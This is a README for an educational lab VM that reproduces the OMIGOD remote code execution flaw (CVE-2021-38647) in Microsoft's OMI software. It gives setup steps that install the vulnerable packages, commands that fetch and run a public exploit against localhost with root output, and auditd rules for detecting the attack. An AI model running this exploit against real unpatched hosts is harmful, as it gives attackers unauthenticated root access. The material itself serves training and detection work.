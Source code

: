 # Readme

An educational lab VM to learn about the 9.6 CVSS unauthenticated Remote Code Execution (RCE) vulnerability in Open Management Infrastructure software (CVE-2021-38647).

Disclosure (original research): https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

OMI source code: https://github.com/microsoft/omi

news:
* https://nakedsecurity.sophos.com/2021/09/16/omigod-an-exploitable-hole-in-microsoft-open-source-code/
* https://www.zdnet.com/article/omigod-azure-users-running-linux-vms-need-to-update-now/
* https://threatpost.com/microsoft-patch-tuesday-exploited-windows-zero-day/169459/

Write up:
* https://censys.io/blog/understanding-the-impact-of-omigod-cve-2021-38647/

Read some of the above before proceeding.

## Setup

* Install [Vagrant](https://www.vagrantup.com/)
* Install a [supported hypervisor](https://app.vagrantup.com/generic/boxes/ubuntu2004)

```shell
git clone https://github.com/craig-m-unsw/omigod-lab.git
cd omigod-lab
vagrant up
vagrant ssh
```

This will setup Ubuntu 20.04 (Focal Fossa). Thanks [Roboxes](https://roboxes.org/) for the Vagrant box.

Installed by Ansible `playbook.yml`:

* omi-1.6.8-0.ssl_110.ulinux.x64.deb - `sha256:2e0813ee3f2a71028f071d9933ca2f336faaaf9b6126d5f1767ffcbc7e803279`
* scx-1.6.8-1.ssl_110.ulinux.x64.deb - `sha256:1cba16e3b307177cbe15bd3fd8a2a87ab8d638846988202be8a17981b5e900c9`

Don't put this VM on the internet :-)

## Exploiting

Thanks to vagrant a port forward on localhost:5986 to 5986 in the VM will be open after bring the box up. We have a lab VM to test with now.

#### CVE-2021-38647

Public exploit code:
* https://github.com/horizon3ai/CVE-2021-38647
* https://github.com/Immersive-Labs-Sec/cve-2021-38647

To run the exploit from your desktop or inside the VM after reading `omigod.py`, this is why the git commands checkout a set commit! Do not run unknown random exploit code.

```shell
cd ~/Downloads
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647
git checkout 2eaf8ab6f1fe8f1691401a3e36da4407997f4cfc || exit 1
python3 -m venv omigod-env
source omigod-env/bin/activate
python3 -m pip install requests urllib3
python3 omigod.py -t 127.0.0.1 -c hostname
```

You should see `ubuntu2004.localdomain` as the output the the hostname command.

Or if you run `id` you can see `uid=0(root) gid=0(root) groups=0(root)` outputs.

😬

## Using omi

The Getting Started doco from MS:
https://github.com/microsoft/omi/blob/master/Unix/doc/omi/omi.pdf

## Detect

Inside the VM auditd is installed.

Log all command exec:

```shell
sudo auditctl -a exit,always -F arch=b32 -S execve -k execve
sudo auditctl -a exit,always -F arch=b64 -S execve -k execve
```

```shell
sudo tail -f /var/log/audit/audit.log
```

The output from sending a command:

```
type=SYSCALL msg=audit(1631977306.937:107): arch=c000003e syscall=59 success=yes exit=0 a0=7f906c002570 a1=7f906c001330 a2=7fffe5148108 a3=7f90751453f0 items=2 ppid=8552 pid=9974 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="sh" exe="/usr/bin/dash" key="execve"
type=EXECVE msg=audit(1631977306.937:107): argc=3 a0="/bin/sh" a1="-c" a2="whoami"
type=CWD msg=audit(1631977306.937:107): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:107): item=0 name="/bin/sh" inode=5374016 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:107): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:107): proctitle=2F62696E2F7368002D630077686F616D69
type=SYSCALL msg=audit(1631977306.937:108): arch=c000003e syscall=59 success=yes exit=0 a0=564c4e436b90 a1=564c4e436b38 a2=564c4e436b48 a3=7f5b83f28850 items=2 ppid=9974 pid=9975 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="whoami" exe="/usr/bin/whoami" key="execve"
type=EXECVE msg=audit(1631977306.937:108): argc=1 a0="whoami"
type=CWD msg=audit(1631977306.937:108): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:108): item=0 name="/usr/bin/whoami" inode=5374366 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:108): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:108): proctitle="whoami"
```

Someone has run "whoami".

Microsoft note this in the blog post "Additional Guidance Regarding OMI Vulnerabilities within Azure VM Management Extensions" on detection:

https://msrc-blog.microsoft.com/2021/09/16/additional-guidance-regarding-omi-vulnerabilities-within-azure-vm-management-extensions/
